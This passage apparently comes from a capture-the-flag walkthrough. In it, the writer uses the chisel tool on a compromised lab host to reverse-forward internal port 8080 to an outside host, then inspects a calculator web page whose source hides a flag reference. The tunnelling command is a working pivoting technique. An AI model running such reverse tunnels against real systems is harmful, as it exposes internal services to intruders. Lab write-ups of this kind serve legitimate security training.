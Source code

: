 ```bash
jenkins@dev1:/tmp$ chmod +x chisel;./chisel client 10.66.69.69:7171 R:8080:127.0.0.1:8080
2020/07/29 11:10:24 client: Connecting to ws://10.66.69.69:7171
2020/07/29 11:10:25 client: Connected (Latency 160.054035ms)
```

# [](header-1)New web service in 8080.

After doing the port forwarding the next step is to visit manually the page:

![](assets/8080.png)

It is a calculator.

We found some interesting info looking at the source code:

```html
<html>
        <head>
                <title>Jr. dev py example</title>
        </head>
        <body>
                <div id="content">
                        <form action="/" method="post">
        <div>
                <input name="op1" type="text" />
                +
                <input name="op2" type="text" />
                =
                <input name="result" type="text" disabled="disabled" />
        </div>
        <div>
                <input type="submit" value="Calculate" />
        </div>

<!-- <img src="./static/FLAG.png"> -->


                </div>
        </body>

</html>

```
